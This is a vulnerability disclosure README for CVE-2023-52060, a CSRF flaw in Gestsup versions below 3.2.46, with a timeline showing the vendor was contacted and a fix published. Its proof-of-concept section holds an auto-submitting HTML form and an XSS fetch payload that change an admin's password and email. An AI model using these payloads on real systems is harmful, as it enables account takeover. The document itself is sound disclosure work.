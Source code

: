 # CVE-2023-52060

## Summary

| ID                    | CVE-2023-52060                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | CSRF on profile's information change request             |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 5.4                                                      |
| **Author**            | Sopalinge                                                |

## Description

A lack of CSRF protection in the request to edit a user's profile information in Gestsup < 3.2.46 allows attackers to perform a Cross-Site Request Forgery (CSRF) attack.

The `index.php?page=admin/user&action=edit&userid=1&tab=infos` endpoint can be exploited to craft a malicious POST request which can be used to trick users into unknowingly changing their information, including email address and password.


## Impact

An attacker could trick another user into unknowingly changing their password when visiting a malicious website. Note that the SameSite attribute is not defined which means that the behaviour will depend on the victim's browser.

Combined with [CVE-2023-52059](../CVE-2023-52059/README.md), it can be used to take over privileged accounts directly from the Gestsup application.


## Proof of concept
### CSRF

The following HTTP code can be hosted on a malicious website. A user tricked into visiting this page has a risk (depedning on multiple factors like the browser used) to have his password, email and function edited.

```
<form id="autosubmit" action="http://localhost:3010/gestsup/index.php?page=admin/user&action=edit&userid=1&tab=infos" method="POST">
    <input type="hidden" name="attachment" value="0" />
    <input type="hidden" name="language" value="fr_FR" />
    <input type="hidden" name="profile" value="4" />
    <input type="hidden" name="firstname" value="admin" />
    <input type="hidden" name="lastname" value="" />
    <input type="hidden" name="login" value="admin" />
    <input type="hidden" name="password" value="admin" />
    <input type="hidden" name="password2" value="admin" />
    <input type="hidden" name="mail" value="admin@example.com" />
    <input type="hidden" name="function" value="hacked" />
    <input type="hidden" name="modify" value="modify" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.getElementById("autosubmit").submit();
</script>
```



https://github.com/Tanguy-Boisset/CVE/assets/83412402/3bf74a94-c885-40f2-a13e-eda5334affc5



### XSS and CSRF

Using [CVE-2023-52059](../CVE-2023-52059/README.md) in the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit the CSRF to change the pasword, email and function of any user viewing the ticket :

```
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```

https://github.com/Tanguy-Boisset/CVE/assets/83412402/69514524-4530-47b6-907e-0b593bd4e691


## Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- 12/02/2024 : CVE publicly disclosed


## References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)
